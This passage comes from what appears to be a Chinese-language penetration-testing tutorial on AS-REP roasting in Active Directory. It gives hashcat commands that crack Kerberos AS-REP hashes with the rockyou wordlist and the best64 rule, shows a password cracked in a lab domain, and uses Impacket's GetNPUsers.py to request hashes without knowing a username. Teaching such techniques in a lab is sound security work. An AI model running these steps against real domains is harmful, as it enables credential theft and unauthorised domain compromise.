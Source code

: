 然后，使用找到的破解模式开始破解密码，如下所示：

    hashcat -m 18200 ./asrep_hashes.txt /usr/share/wordlists/rockyou.txt -o cracked_asrep.txt
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182701080-1482395182.png)

但是失败了！

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182704207-484018931.png)

然后，又在上述命令中添加 **best64** 规则之后再次尝试，这次我们成功破解了密码！

> 注：`/usr/share/hashcat/rules/best64.rule` 规则文件会对每个候选密码进行 64 中最常见的变体操作，如：大小写转换、添加常见后缀或前缀（如添加 123，!，1）、替换常见字符（如把 a 变成 @，o 变成 0）、重复字符、反转、裁剪等操作。

    hashcat -m 18200 ./asrep_hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule -o cracked_asrep.txt
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182704027-2016034930.png)

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182702058-536797847.png)

**vcreed：Dfaster1！23**

> 从这里也可以看出，rockyou.txt 并非万能的解决方案，所以不能过度依赖它。如果 rockyou 没有密码，也可以尝试去添加一些规则或尝试一些不同的单词表，或许就会产生不一样的效果。

无论破解此哈希之前的情况如何，在有了一组新的凭据可供使用之后，我们距离实现最终目标（域管理员）就又更近了一步。

**

8、场景示例

**
--------------

在极少数情况下，您可能会非常幸运，无需找到有效的用户名便可以找到已禁用预身份验证的用户，如下所示：

    GetNPUsers.py juggernaut.local/ -dc-ip 172.16.1.5
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182704163-60100254.png)

如果此操作有效，您可以添加 **\-request** 选项来请求发现用户的哈希值：

    GetNPUsers.py juggernaut.local/ -dc-ip 172.16.1.5 -request
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182702770-483144539.png)

Amazing！只要知道域名，我们就能获取用户哈希值，然后开始破解它。